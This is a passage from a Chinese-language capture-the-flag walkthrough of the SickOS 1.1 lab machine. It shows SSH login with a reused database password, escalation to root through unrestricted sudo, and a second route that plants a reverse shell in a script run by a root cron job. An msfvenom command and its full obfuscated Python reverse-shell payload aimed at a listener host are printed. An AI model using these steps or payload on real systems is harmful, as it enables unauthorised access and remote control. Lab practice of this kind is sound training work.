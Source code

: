     发现可疑用户有 `root`，`www-data`，`bckup`，`sickos`
    
- 使用可疑用户进行ssh登录，密码使用`john@123` ，数据库链接上的密码
    
    最后`sickos` 成功登录
    
- 查看`sickos` 用户权限
    
    ```php
    sickos@SickOs:~$ sudo -l
    //
    [sudo] password for sickos: 
    Matching Defaults entries for sickos on this host:
        env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
    
    User sickos may run the following commands on this host:
        (ALL : ALL) ALL
    ```
    
    等于root权限
    
- 读取flag
    
    ```php
    sickos@SickOs:~$ sudo /bin/bash
    root@SickOs:~# 
    //
    root@SickOs:/home# cd /root
    root@SickOs:/root# cat a0216ea4d51874464078c618298b1367.txt 
    If you are viewing this!!
    
    ROOT!
    
    You have Succesfully completed SickOS1.1.
    Thanks for Trying
    ```
    

## 另外一种提权思路

1. 查看定时任务`crontab` ，在`/etc/cron.d/` 里面存在一个`automate`
    
    内容是
    
    ```php
    www-data@SickOs:/etc/cron.d$ cat automate
    //
    * * * * * root /usr/bin/python /var/www/connect.py
    ```
    
    每分钟使用`root`执行`connect.py`
    
2. 可以往`connect.py` 添加反弹`shell`代码
3. 生成`py`的`payload`代码
    
    ```php
    msfvenom -p cmd/unix/reverse_python lhost=192.168.75.131 lport=1235 -f raw
    //
    [-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
    [-] No arch selected, selecting arch: cmd from the payload
    No encoder specified, outputting raw payload
    Payload size: 364 bytes
    python -c "exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('eNqFkM0KwjAQhF8l5JSARJNSf5AcilQQUcH2XmyMtFib0E3fX0Paeuxehtn9dge2/ljTOQRGvbVDCC0Qgr60nVEaIHjz0z3yVRlwEvOdYHy9ZZuY8YjjcejvSC6ieGyADFdZEDK45Ficrmk+ZIVedjuciyy/p8mFTutMmbbVyhHicwPvQ+iEGGDP3goC7FU3ujWEBmo1S/BZQkyElf+PMPVoGoKXZd0uocL0C7l5Vrk=')[0])))
    ```
    